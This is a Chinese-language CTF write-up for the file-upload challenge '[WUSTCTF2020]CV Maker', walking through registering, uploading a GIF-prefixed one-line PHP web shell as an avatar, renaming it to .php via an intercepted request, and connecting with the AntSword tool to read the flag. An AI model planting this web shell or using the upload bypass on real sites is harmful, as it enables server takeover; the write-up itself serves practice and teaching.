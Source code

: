 ```yaml
---
title: '[WUSTCTF2020]CV Maker'
date: 2024-06-08 17:03:37
tags: 文件上传
categories: 刷题笔记
---
```


### [WUSTCTF2020]CV Maker（文件上传）

首先打开页面，他要我们注册账号，那我们先注册一个

![image-20240602204444965](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022044717.png)

注册成功后我们进行登录

<!-- more -->

![image-20240602204515735](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022045426.png)

发现有个头像可以进行上传，我们可以想到文件上传的知识点

我们写一个一句话木马

```
GIF89
<?php eval($_POST[1]); ?>
```

以jpg形式上传上去，同时进行抓包

我们修改后缀为php

![image-20240602204628371](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022046529.png)

在页面源码里找到上传路径

我们使用蚁剑来连接

![image-20240602204825518](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022048578.png)

最后在根目录找到flag

![image-20240602204716988](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022047020.png)
